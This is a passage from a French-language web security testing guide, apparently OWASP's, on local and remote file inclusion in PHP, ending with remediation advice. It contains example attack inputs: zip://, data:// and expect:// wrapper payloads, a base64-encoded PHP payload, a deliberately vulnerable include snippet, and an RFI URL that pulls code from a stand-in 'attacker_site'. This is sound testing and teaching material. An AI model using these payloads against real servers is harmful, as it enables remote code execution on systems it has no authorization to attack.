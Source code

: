Étant donné que sur notre exemple, l'extension `.php` est concaténée à notre charge utile, la requête à `http://vulnerable_host/preview.php?file=zip://../avatar/target.jpg%23code` entraînera l'exécution du fichier `code.php` existant dans le fichier ZIP illicite.

##### Données PHP

Disponible depuis PHP 5.2.0, ce wrapper attend l'utilisation suivante : `data://text/plain;base64,BASE64_STR` où `BASE64_STR` est censé être le contenu encodé en Base64 du fichier à traiter. Il est important de considérer que ce wrapper ne serait disponible que si l'option `allow_url_include` était activée.

Afin de tester LFI à l'aide de ce wrapper, le code à exécuter doit être encodé en Base64. Par exemple, `<?php phpinfo(); ?>` serait encodé comme : `PD9waHAgcGhwaW5mbygpOyA/Pg==` et la charge utile serait représentée comme : `data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==`.

##### Attendre PHP

Ce wrapper, qui n'est pas activé par défaut, donne accès aux processus `stdio`, `stdout` et `stderr`. Donné au format `expect://command`, le serveur exécuterait la commande fournie en utilisant `BASH` et renverrait le résultat.

### Test d'inclusion de fichiers distants

Étant donné que RFI se produit lorsque les URL transmises aux instructions `include` ne sont pas correctement filtrées, dans une approche de test de boîte noire, nous devrions rechercher des scripts qui prennent les noms de fichiers comme paramètres. Prenons l'exemple PHP suivant :

```php
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

Dans cet exemple, le chemin est extrait de la requête HTTP et aucune validation d'entrée n'est effectuée (par exemple, en vérifiant l'entrée par rapport à une liste d'autorisations), donc cet extrait de code est vulnérable à ce type d'attaque. Considérez l'URL suivante :

`http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page`

Dans ce cas, le fichier distant sera inclus et tout code qu'il contient sera exécuté par le serveur.

## Correction

La solution la plus efficace pour éliminer les vulnérabilités d'inclusion de fichiers consiste à éviter de transmettre les entrées soumises par l'utilisateur à une API de système de fichiers/framework. Si cela n'est pas possible, l'application peut maintenir une liste d'autorisation de fichiers qui peuvent être inclus par la page, puis utiliser un identifiant (par exemple, le numéro d'index) pour accéder au fichier sélectionné. Toute demande contenant un identifiant non valide doit être rejetée afin qu'il n'y ait aucune possibilité pour des utilisateurs malveillants de manipuler le chemin.
Consultez la [fiche de triche pour le téléchargement de fichiers](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html) pour connaître les bonnes pratiques de sécurité à ce sujet.

## Outils
